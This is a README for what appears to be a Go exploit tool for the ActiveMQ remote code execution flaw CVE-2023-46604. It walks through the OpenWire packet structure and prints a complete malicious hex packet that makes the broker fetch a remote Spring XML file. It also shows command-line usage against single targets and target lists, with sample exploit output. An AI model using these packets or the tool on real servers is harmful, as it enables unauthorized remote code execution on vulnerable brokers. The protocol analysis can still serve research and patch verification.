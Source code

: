 # ActiveMQ-RCE

ActiveMQ RCE (CVE-2023-46604) exploit, written in Golang

Some detailed analysis reports

[https://exp10it.cn/2023/10/apache-activemq-版本-5.18.3-rce-分析](https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/)

[https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis)

## OpenWire Protocol Analysis

Refer to the official documentation and Wireshark for a simple analysis of the OpenWire Protocol

[https://activemq.apache.org/openwire-version-2-specification](https://activemq.apache.org/openwire-version-2-specification)

A simple ActiveMQ RCE packet is as follows

```
000000701f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001d687474703a2f2f3132372e302e302e313a383030302f706f632e786d6c
```

We can divide it into two parts: header and body

header

```
+----------------------------------------------------------------------------------+
| Packet Length | Command | Command Id | Command response required | CorrelationId |
|---------------|---------|------------|---------------------------|---------------|
|   00000070    |   1f    |  00000000  |          00               |   00000000    |
+----------------------------------------------------------------------------------+
```

Packet Length: length of body part / 2

Command: Command Type Identifier, `1f` corresponds to ExceptionResponse

Command Id: As the name suggests. Here we fill it with zero

Command response required: whether a response is required

CorrelationId: As the name suggests. Here we fill it with zero

body

```
+--------------------------------------------------------------------------------------+
| not-null | not-null | classname-size | classname | not-null | message-size | message |
|----------|----------|----------------|-----------|----------|--------------|---------|
|    01    |    01    |      0042      |   .....   |    01    |     001d     |  .....  |
+--------------------------------------------------------------------------------------+
```

The `not-null` at the beginning is `01`, which means that the entire body part is not empty, and every three parts after that represent a String type

`not-null` means that the string `classname` is not empty, and then follow its length and hex content. The same goes for `message`.

You can refer to the schematic diagram given in the official document.

String Type Encoding

```
             [=If not-null is 1===========]
+----------+ [ +-------+----------------+ ]
| not-null | [ | size  | encoded-string | ]
+----------+ [ +-------+----------------+ ]
| byte     | [ | short | size octects   | ]
+----------+ [ +-------+----------------+ ]
             [============================]
```

Throwable Type Encoding

```
             [=If not-null is 1===========================================================================]
             [                               [=If StackTraceEnabled option is enabled.==================] ]
             [                               [             [=Repeated size times======================] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
| not-null | [ | exception-name | message |  [ | size  | [ | class  | method | file   | line-number | ] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
| byte     | [ | string         | string  |  [ | short | [ | string | string | string | int         | ] ] ]
+----------+ [ +----------------+---------+  [ +-------+ [ +--------+--------+--------+-------------+ ] ] ]
             [                               [           [============================================] ] ]
             [                               [==========================================================] ]
             [============================================================================================]
```

## Usage

Usage

```bash
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

Usage of ./main:
  -i string
        ActiveMQ Server IP or Host
  -l string
        List of ActiveMQ Servers IPs or Hosts and ports separeted by \n ex: 1.1.1.1:61616
  -p string
        ActiveMQ Server Port (default "61616")
  -t    Use TLS for connection
  -u string
        Spring XML URL
```

Single target exploit

```bash
$ ./ActiveMQ-RCE -i 127.0.0.1 -u http://127.0.0.1:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 127.0.0.1:61616
[*] XML URL: http://127.0.0.1:8000/poc.xml

[*] Sending packet: 000000701f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001d687474703a2f2f3132372e302e302e313a383030302f706f632e786d6c
```

Multi-Target exploit:

```Console
$ ./ActiveMQ-RCE -l targets.txt -u http://127.0.0.1:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] XML URL: http://127.0.0.1:8000/poc.xml
[*] Targets list: target.txt

[*] Sending packet: 000000631f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010010687474703a2f2f6c6f63616c686f7374
[*] Target: localhost:61616
[*] Target: 127.0.0.1:61616
[*] Target: example.test:61616

```

If you just want to simply detect whether there is a vulnerability, you can change the spring xml url to the dnslog address.
